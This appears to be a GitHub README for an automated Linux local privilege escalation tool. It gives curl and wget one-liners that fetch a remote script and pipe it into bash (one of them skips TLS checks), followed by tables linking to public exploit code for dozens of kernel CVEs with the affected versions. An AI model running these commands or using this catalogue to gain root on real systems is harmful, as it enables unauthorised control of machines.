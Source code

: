 
<div align="center"><h1>Auto Local Privilege Escalation Exploit</h1></h1></div>
<br>

<div align="center">
  
![licence](https://img.shields.io/badge/LICENE-GPL2.0-ebcb8b?style=flat-square)
![version](https://img.shields.io/badge/VERSION-1.0.2-a3be8c?style=flat-square)
  
 </div>

<br>

<div align="center"><h1>Changes</h1></div>

<samp>
  
* Fixed dos2unix error

</samp>

<div align="center"><h1>Requirements</h1></div>

<samp>
  
* GIT
  
* WGET
  
* GCC
  
</samp>

<div align="center"><h1>Curl</h1></div>

```
root@127.0.0.1:~# bash -c "$(curl -fsSL https://raw.githubusercontent.com/vlain1337/auto-lpe/refs/heads/main/autolpe.sh -k)"	
```

<div align="center"><h1>Wget</h1></div>

```
root@127.0.0.1:~# bash -c "$(wget --no-verbose -O- https://raw.githubusercontent.com/vlain1337/auto-lpe/refs/heads/main/autolpe.sh)"
```
<samp>
<div align="center"><h1> TOP EXPLOIT</h1></div>

| CVE-ID                                      | LINK REFERENCE      |
| ------------------------------------------- | ------------------------------- |
| [CVE-2021-4034]       | https://github.com/ly4k/PwnKit  |
| [CVE-2022-2588]       | https://github.com/Markakd/CVE-2022-2588/ |
| [CVE-2021-3493]       | https://github.com/briskets/CVE-2021-3493                  |
| [CVE-2023-2640] | https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629                  |
| [CVE-2022-0847] | https://github.com/n3rada/DirtyPipe             |

<div align="center"><h1> EXPLOIT LIST</h1></div>

| CVE-ID                                                    | Possible affected versions                                                            |
| --------------------------------------------------------- | ------------------------------------------------------------------------------------- |
| [CVE-2022-34918](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-34918)                   | Linux kernel < 5.18.11                                                                |
| [CVE-2022-32250](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-32250)                   | Linux kernel < 5.18.1                                                                 |
| [CVE-2022-27666](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-27666)                   | Linux kernel < 5.17-rc8                                                               |
| [CVE-2022-25636](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-25636)                   | Linux kernel 5.4-5.6.10                                                               |
| [CVE-2022-23222](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-23222)                   | Linux kernel 5.8-5.16                                                                 |
| [CVE-2022-2639](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-2639)                     | Linux kernel 3.13-5.18                                                                |
| [CVE-2022-2602](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-2602)                     | Linux kernel < 6.1-rc1                                                                |
| [CVE-2022-2588](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-2588)                     | Linux kernel < 5.19                                                                   |
| [CVE-2022-2586](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-2586)                     | Linux kernel > 3.16-rc1                                                               |
| [CVE-2022-2585](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-2585)                     | Linux kernel > 5.7-rc1                                                                |
| [CVE-2022-1015](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-1015)                     | Linux kernel 5.12-5.17                                                                |
| [CVE-2022-0995](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-0995)                     | Linux kernel 5.8-5.17-rc7                                                             |
| [CVE-2022-0847 (DirtyPipe)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-0847)         | Linux kernel 5.8-5.16.11                                                              |
| [CVE-2022-0185](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-0185)                     | Linux kernel 5.1-rc1-5.17-rc1                                                         |
| [CVE-2021-43267](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2021/CVE-2021-43267)                   | Linux kernel 5.10-rc1-5.15                                                            |
| [CVE-2021-42008](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2021/CVE-2021-42008)                   | Linux kernel < 5.13.13                                                                |
| [CVE-2021-41073](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2021/CVE-2021-41073)                   | Linux kernel 5.10-5.14.6                                                              |
| [CVE-2021-31440](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2021/CVE-2021-31440)                   | Linux kernel 5.7-5.11.15                                                              |
| [CVE-2021-27365](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2021/CVE-2021-27365)                   | Linux kernel <= 5.11.3                                                                |
| [CVE-2021-22555](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2021/CVE-2021-22555)                   | Linux kernel 2.6.19-5.12-rc6                                                          |
| [CVE-2021-4154](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2021/CVE-2021-4154)                     | Linux kernel < 5.3.18                                                                 |
| [CVE-2021-3493](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2021/CVE-2021-3493)                     | Ubuntu 20.10、Ubuntu 20.04 LTS、Ubuntu 18.04 LTS、Ubuntu 16.04 LTS、Ubuntu 14.04 ESM  |
| [CVE-2021-3490](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2021/CVE-2021-3490)                     | Linux kernel < 5.13-rc4                                                               |
| [CVE-2020-27194](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2020/CVE-2020-27194)                   | Linux kernel 5.7-5.8.14                                                               |
| [CVE-2020-8835](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2020/CVE-2020-8835)                     | Linux kernel 5.4.7-5.4.29, 5.5-5.5.14, 5.6                                            |
| [CVE-2019-15666](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2019/CVE-2019-15666)                   | Linux kernel < 5.0.19                                                                 |
| [CVE-2019-13272](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2019/CVE-2019-13272)                   | Linux kernel 4.10-5.1.17                                                              |
| [CVE-2018-18955](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2018/CVE-2018-18955)                   | Linux kernel 4.15-4.19.2                                                              |
| [CVE-2018-17182](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2018/CVE-2018-17182)                   | Linux kernel 3.5-4.18.8                                                               |
| [CVE-2018-5333](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2018/CVE-2018-5333)                     | Linux kernel 4.4-4.14.13                                                              |
| [CVE-2017-1000253](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2017/CVE-2017-1000253)               | Linux kernel 3.2-4.13                                                                 |
| [CVE-2017-16995](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2017/CVE-2017-16995)                   | Linux kernel 4.4-4.14.8                                                               |
| [CVE-2017-16939](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2017/CVE-2017-16939)                   | Linux kernel < 4.13.11                                                                |
| [CVE-2017-11176](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2017/CVE-2017-11176)                   | Linux kernel <= 4.11.9                                                                |
| [CVE-2017-8890](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2017/CVE-2017-8890)                     | Linux kernel 2.5.69-4.11                                                              |
| [CVE-2017-7308](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2017/CVE-2017-7308)                     | Linux kernel 3.2-4.10.6                                                               |
| [CVE-2017-6074](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2017/CVE-2017-6074)                     | Linux kernel 2.6.18-4.9.11                                                            |
| [CVE-2017-5123](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2017/CVE-2017-5123)                     | Linux kernel 4.12-4.13                                                                |
| [CVE-2016-9793](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2016/CVE-2016-9793)                     | Linux kernel 3.11-4.8.14                                                              |
| [CVE-2016-8655](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2016/CVE-2016-8655)                     | Linux kernel 4.4.0-4.9                                                                |
| [CVE-2016-5195 (DirtyCow)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2016/CVE-2016-5195)          | Linux kernel 2.6.22-4.8.3                                                             |
| [CVE-2016-4997](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2016/CVE-2016-4997)                     | Linux kernel <= 4.6.3                                                                 |
| [CVE-2016-4557](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2016/CVE-2016-4557)                     | Linux kernel 4.4-4.5.5                                                                |
| [CVE-2016-2384](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2016/CVE-2016-2384)                     | Linux kernel 3.0.0-4.4.8                                                              |
| [CVE-2016-0728 (pp_key)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2016/CVE-2016-0728)            | Linux kernel 3.8.0-3.8.9, 3.9-3.13, 3.4.0-3.13.0, 3.8.5-3.8.9, 3.10.6, 3.9.6, 3.13.1  |
| [CVE-2015-8660](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2015/CVE-2015-8660)                     | Linux kernel 3.0.0-4.3.3                                                              |
| [CVE-2015-8550](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2015/CVE-2015-8550)                     | Linux kernel 4.19.65                                                                  |
| [CVE-2015-1328 (ofs)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2015/CVE-2015-1328)               | Linux kernel 3.13, 3.16.0, 3.19.0                                                     |
| [CVE-2014-9322](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2014/CVE-2014-9322)                     | Linux kernel 3.0.1-3.17.5                                                             |
| [CVE-2014-4699](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2014/CVE-2014-4699)                     | Linux kernel 3.0.1-3.15.4                                                             |
| [CVE-2014-4014](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2014/CVE-2014-4014)                     | Linux kernel 3.0.1-3.14.8                                                             |
| [CVE-2014-3153](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2014/CVE-2014-3153)                     | Linux kernel 3.3.2-3.3.5, 3.0.1-3.0.5, 2.6.32-2.6.39, 2.6.4-2.6.9,3.2.2, 3.0.18       |
| [CVE-2014-0196 (rawmodePTY)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2014/CVE-2014-0196)        | Linux kernel 2.6.31-2.6.39, 3.14, 3.15                                                |
| [CVE-2014-0038 (timeoutpwn)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2014/CVE-2014-0038)        | Linux kernel 3.4-3.13, 3.4.0-3.8.0, 3.8.5, 3.8.6, 3.8.9, 3.9.0, 3.9.6, 3.10.0-3.13.0  |
| [CVE-2013-2094 (perf_swevent)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2013/CVE-2013-2094)      | Linux kernel 3.0.0-3.0.6, 3.1.0, 3.2, 3.3, 3.4.0-3.4.9, 3.5, 3.6, 3.7, 3.8.0-3.8.9    |
| [CVE-2013-1959](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2013/CVE-2013-1959)                     | Linux kernel 3.0.1-3.8.9                                                              |
| [CVE-2013-1858 (clown-newuser)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2013/CVE-2013-1858)     | Linux kernel 3.8-3.8.3                                                                |
| [CVE-2013-1763](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2013/CVE-2013-1763)                     | Linux kernel 3.3-3.8                                                                  |
| [CVE-2013-0268 (msr)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2013/CVE-2013-0268)               | Linux kernel 2.6.18-2.6.39, 3.0.0-3.0.6, 3.1.0, 3.2, 3.3, 3.4, 3.5, 3.6, 3.7.0, 3.7.6 |
| [CVE-2012-0056 (memodipper)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2012/CVE-2012-0056)        | Linux kernel 2.6.39, 3.0.0, 3.0.1, 3.0.2, 3.0.3, 3.0.4, 3.0.5, 3.0.6, 3.1.0           |
| [CVE-2010-4347](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2010/CVE-2010-4347)                     | Linux kernel 2.6.0-2.6.36                                                             |
| [CVE-2010-4258 (full-nelson)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2010/CVE-2010-4258)       | Linux kernel 2.6.31-2.6.37                                                            |
| [CVE-2010-4073 (half_nelson)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2010/CVE-2010-4073)       | Linux kernel 2.6.0-2.6.36                                                             |
| [CVE-2010-3904 (rds)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2010/CVE-2010-3904)               | Linux kernel 2.6.30-2.6.36                                                            |
| [CVE-2010-3301 (ptrace_kmod2)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2010/CVE-2010-3301)      | Linux kernel 2.6.26-2.6.34                                                            |
| [CVE-2010-3081 (video4linux)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2010/CVE-2010-3081)       | Linux kernel 2.6.0-2.6.33                                                             |
| [CVE-2010-2959 (can_bcm)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2010/CVE-2010-2959)           | Linux kernel 2.6.18-2.6.36                                                            |
| [CVE-2010-1146 (reiserfs)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2010/CVE-2010-1146)          | Linux kernel 2.6.18-2.6.34                                                            |
| [CVE-2009-3547 (pipe.c_32bit)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2009/CVE-2009-3547)      | Linux kernel 2.4.4-2.4.37, 2.6.15-2.6.31                                              |
| [CVE-2009-2698 (udp_sendmsg_32bit)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2009/CVE-2009-2698) | Linux kernel 2.6.1-2.6.19                                                             |
| [CVE-2009-2692 (sock_sendpage)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2009/CVE-2009-2692)     | Linux kernel 2.4.4-2.4.37，2.6.0-2.6.30                                               |
| [CVE-2009-1337 (exit_notify)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2009/CVE-2009-1337)       | Linux kernel 2.6.25-2.6.29                                                            |
| [CVE-2009-1185 (udev) ](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2009/CVE-2009-1185)             | Linux kernel 2.6.25-2.6.29                                                            |
| [CVE-2008-4210 (ftrex)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2008/CVE-2008-4210)             | Linux kernel 2.6.11-2.6.22                                                            |
| [CVE-2008-0900](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2008/CVE-2008-0900)                     | Linux kernel 2.6.17-2.6.24.1                                                          |
| [CVE-2008-0600](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2008/CVE-2008-0600)                     | Linux kernel 2.6.23, 2.6.24                                                           |
| [CVE-2006-3626 (h00lyshit)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2006/CVE-2006-3626)         | Linux kernel 2.6.8, 2.6.10, 2.6.11, 2.6.12, 2.6.13, 2.6.14, 2.6.15, 2.6.16            |
| [CVE-2006-2451 (raptor_prctl)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2006/CVE-2006-2451)      | Linux kernel 2.6.13-2.6.17                                                            |
| [CVE-2005-1263](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2005/CVE-2005-1263)                     | Linux kernel 2.x.x-2.2.27-rc2, 2.4.x-2.4.31-pre1, 2.6.x-2.6.12-rc4                    |
| [CVE-2005-0736 (krad3)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2005/CVE-2005-0736)             | Linux kernel 2.6.5, 2.6.7, 2.6.8, 2.6.9, 2.6.10, 2.6.11                               |
| [CVE-2004-1235 (elflbl)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2004/CVE-2004-1235)            | Linux kernel 2.4.29                                                                   |
| [CVE-2004-0077 (mremap_pte) ](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2004/CVE-2004-0077)       | Linux kernel 2.4.20, 2.2.24, 2.4.25, 2.4.26, 2.4.27                                   |
| [CVE-N/A (caps_to_root)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2004/caps_to_root)             | Linux kernel 2.6.34, 2.6.35, 2.6.36                                                   |

</samp>

## Disclaimer

This repository is for educationnal purposes only.
Malicious usage of this repository are not the author responsibility.
